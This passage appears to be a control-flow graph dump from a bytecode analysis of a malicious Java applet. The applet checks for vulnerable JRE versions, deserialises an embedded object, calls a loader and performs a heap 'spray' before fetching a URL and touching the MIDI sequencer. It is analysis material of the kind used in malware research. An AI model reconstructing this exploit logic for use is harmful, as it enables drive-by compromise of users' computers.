    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r28";
    "store.r r28"->"load.r r25";
    "push \"1.5.0\""
    "load.r r25"->"push \"1.5.0\"";
    "ifcmpeq.r new java.io.ObjectInputStream"
    "push \"1.5.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_01\""
    "load.r r25"->"push \"1.5.0_01\"";
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i new java.io.ObjectInputStream"
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_02\""
    "load.r r25"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_03\""
    "load.r r25"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_04\""
    "load.r r25"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_05\""
    "load.r r25"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_06\""
    "load.r r25"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_07\""
    "load.r r25"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_08\""
    "load.r r25"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_09\""
    "load.r r25"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_10\""
    "load.r r25"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_11\""
    "load.r r25"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_12\""
    "load.r r25"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_13\""
    "load.r r25"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_14\""
    "load.r r25"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_15\""
    "load.r r25"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_16\""
    "load.r r25"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0\""
    "load.r r25"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_01\""
    "load.r r25"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_02\""
    "load.r r25"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_03\""
    "load.r r25"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_04\""
    "load.r r25"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_05\""
    "load.r r25"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_06\""
    "load.r r25"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_07\""
    "load.r r25"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_10\""
    "load.r r25"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r25"
    "push -1"->"ifcmpeq.i load.r r25";
    "new java.io.ObjectInputStream"
    "ifcmpeq.i load.r r25"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "fieldget <dev.s.sucks: java.lang.String SO>"
    "load.r r0"->"fieldget <dev.s.sucks: java.lang.String SO>";
    "staticinvoke <dev.s.Bladstvo: byte[] StringToBytes(java.lang.String)>"
    "fieldget <dev.s.sucks: java.lang.String SO>"->"staticinvoke <dev.s.Bladstvo: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <dev.s.Bladstvo: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"store.r r28";
    "store.r r28"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>"->"store.r $r51";
    "store.r $r51"->"load.r r28";
    "ifnull goto load.r r25"
    "load.r r28"->"ifnull goto load.r r25";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "ifnull goto load.r r25"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"ifnull goto load.r r25";
    "ifnull goto load.r r25"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u0432\u043e\u0440\u043a\u0430\u0435\u043c\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u0432\u043e\u0440\u043a\u0430\u0435\u043c\"";
    "push \"\u0432\u043e\u0440\u043a\u0430\u0435\u043c\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r $r51";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "load.r $r51"->"ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"push \"\"";
    "push \"\""->"store.r $r51";
    "store.r $r51"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"load.r $r51";
    "load.r $r51"->"push \"1\"";
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"
    "push \"1\""->"virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>";
    "goto load.r r25"
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"->"goto load.r r25";
    "goto load.r r25"->"load.r r25";
    "push \"1.5.0_17\""
    "load.r r25"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_18\""
    "load.r r25"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_19\""
    "load.r r25"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_20\""
    "load.r r25"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_21\""
    "load.r r25"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r25"
    "push 0"->"store.b r25";
    "store.b r25"->"goto load.r r26";
    "goto load.r r26"->"load.r r26";
    "load.r r26"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b r26"
    "push 1"->"store.b r26";
    "goto load.b r25"
    "store.b r26"->"goto load.b r25";
    "load.b r25"
    "goto load.b r25"->"load.b r25";
    "load.b r26"
    "load.b r25"->"load.b r26";
    "load.b r26"->"and.b";
    "ifeq return"
    "and.b"->"ifeq return";
    "ifeq return"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u041b\u0430\u0436\u04303!!!\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u041b\u0430\u0436\u04303!!!\"";
    "push \"\u041b\u0430\u0436\u04303!!!\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 47";
    "push 47"->"push 303";
    "push 303"->"staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>"->"pop";
    "pop"->"load.r r20";
    "load.r r20"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 304"
    "push 47"->"push 304";
    "push 304"->"staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>"->"store.r r20";
    "store.r r20"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"push \"\"";
    "push \"\""->"store.r r24";
    "store.r r24"->"push 0";
    "store.i r26"
    "push 0"->"store.i r26";
    "goto load.i r26"
    "store.i r26"->"goto load.i r26";
    "load.i r26"
    "goto load.i r26"->"load.i r26";
    "load.i r26"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"ifcmplt.i new java.lang.StringBuilder";
    "goto load.r r24"
    "ifcmplt.i new java.lang.StringBuilder"->"goto load.r r24";
    "goto load.r r24"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "rem.i"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r24";
    "load.r r24"->"load.r r16";
    "load.r r16"->"virtualinvoke <dev.s.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "virtualinvoke <dev.s.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <dev.s.sucks: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <dev.s.sucks: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"load.r r20";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r20"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"push 10L";
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifne new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"26\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r24";
    "ifcmplt.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "push \"toHexString\""
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"push \"toHexString\"";
    "push \"toHexString\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"load.i r26";
    "load.i r26"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r24";
    "inc.i r26 1"
    "store.r r24"->"inc.i r26 1";
    "iflt return"->"return";
    "ifeq return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b r26";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r25";
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"->"store.r r28";
    "store.r r28"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r28";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r28"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"load.r r28";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "load.r r28"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "ifne new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r56";
    "ifcmplt.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"push \"toHexString\"";
    "push \"toHexString\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r51";
    "load.r $r51"->"load.i i52";
    "load.i i52"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r56";
    "inc.i i52 1"
    "store.r $r56"->"inc.i i52 1";
    "iflt return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b $r51";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r28";
    "ifcmpne.c load.i $r51"->"load.i $r51";
    "load.i $r51"->"load.r r26";
    "load.r r26"->"load.i $r56";
    "load.i $r56"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"add.i";
    "add.i"->"store.i $r51";
    "inc.i $r56 1"
    "store.i $r51"->"inc.i $r56 1";
}
